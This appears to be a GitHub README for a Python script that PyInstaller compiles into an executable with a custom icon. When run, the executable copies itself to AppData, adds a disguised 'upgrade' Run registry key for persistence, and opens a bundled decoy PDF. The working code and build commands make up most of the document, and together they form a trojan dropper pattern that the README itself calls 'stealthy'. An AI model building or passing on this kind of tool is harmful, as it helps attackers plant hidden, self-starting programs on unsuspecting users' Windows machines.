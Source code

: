 # 🛠️ Persistence Script with PDF Execution and Custom Icon

This project demonstrates a Windows-based Python script designed for **persistence** by adding itself to the system's registry and automatically executing a bundled **PDF** file. Additionally, it supports assigning a custom **icon (.ico)** to the final `.exe` file.

---

## 🔍 Features

- Copies itself to the `AppData` directory for stealthy persistence.
- Adds a registry key under `HKCU\...\Run` to run automatically at startup.
- Extracts and opens a bundled `PDF` file when executed.
- Supports setting a custom `.ico` file for a professional-looking executable.

---

## 🧪 Setup & Usage

### 1. Python Script

```python
import time
import subprocess
import os
import shutil
import sys

def add_to_registry():
    # persistence
    new_file = os.environ["appdata"] + "\\deneme.exe"
    if not os.path.exists(new_file):
        shutil.copyfile(sys.executable, new_file)
        regedit_command = "reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v upgrade /t REG_SZ /d " + new_file
        subprocess.call(regedit_command, shell=True)

add_to_registry()

def open_added_file():
    added_file = sys._MEIPASS + "\\deneme.pdf"
    subprocess.Popen(added_file, shell=True)

open_added_file()
```

### 2. Prepare Required Files

- `deneme.pdf` → The PDF file to be opened
- `icon.ico` → Custom icon file for the `.exe`

### 3. Compile with PyInstaller

```bash
pyinstaller --onefile --add-data "deneme.pdf;." --icon=icon.ico scriptname.py
```

> The `--icon=icon.ico` argument sets a custom icon for the executable, improving its appearance in Windows Explorer or the desktop.

---

## ⚙️ How It Works

- `add_to_registry()`:
  - Copies the running `.exe` to `%APPDATA%\deneme.exe`.
  - Adds a registry key under `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` to ensure execution on user login.

- `open_added_file()`:
  - Uses `sys._MEIPASS` to locate and run `deneme.pdf` bundled within the PyInstaller package.

---
